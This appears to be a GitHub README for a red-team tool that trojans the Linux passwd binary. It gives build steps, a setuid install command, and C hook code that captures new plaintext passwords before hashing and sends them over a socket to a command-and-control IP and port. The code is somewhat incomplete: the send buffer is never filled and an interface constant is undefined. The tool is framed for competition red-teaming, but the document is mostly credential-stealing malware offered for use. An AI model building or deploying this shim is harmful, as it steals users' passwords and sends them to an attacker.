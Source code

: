 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a C2. It will also write to a file in the /tmp directory as a failover method. 

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. run ./generate.sh
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. run ./generate.sh
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

	#include <sys/socket.h>
	#include <arpa/inet.h> 
	#include <sys/ioctl.h>
	#include <netinet/in.h>
	#include <net/if.h>
	#include <unistd.h> 
	#include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. 

	int writetofile (char *password){

	    /* Get UID */
	    uid_t uid = geteuid();
	    struct passwd * pw = getpwuid(uid);

	    /* Get IP Address */
	    int fd;
	    struct ifreq ifr;
	    fd = socket(AF_INET, SOCK_DGRAM, 0);

	    /* I want to get an IPv4 IP address */
	    ifr.ifr_addr.sa_family = AF_INET;

	    /* I want IP address attached to set interface */
	    strncpy(ifr.ifr_name, INT_HERE, IFNAMSIZ-1);
	    ioctl(fd, SIOCGIFADDR, &ifr);
	    close(fd);

	    /* display result */
	    char buffer[256];
	    char * ip;
	    ip = inet_ntoa(((struct sockaddr_in *)&ifr.ifr_addr)->sin_addr);
	    //SNPRINT

	    /* Make Socket */
	    int sock = 0, valread;
	    struct sockaddr_in serv_addr;

	    /* Sock creation Pt 2*/
	    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
		return -1;
	    }

	    /* Socket Options */
	    serv_addr.sin_family = AF_INET;
	    serv_addr.sin_port = htons(PORT);

	    /* Timeout settings */
	    struct timeval timeout;
	    timeout.tv_sec = 3;
	    timeout.tv_usec = 0;

	    if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
		return -1;
	    }
	    if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
		// pass

	    /* set IP and set buffer */
	    }
	    if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
		return -1;
	    }
	    if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
		return -1;
	    }

	    /* Send Message */
	    send(sock , buffer , strlen(buffer) , 0 ); 

	    return 0;

	}
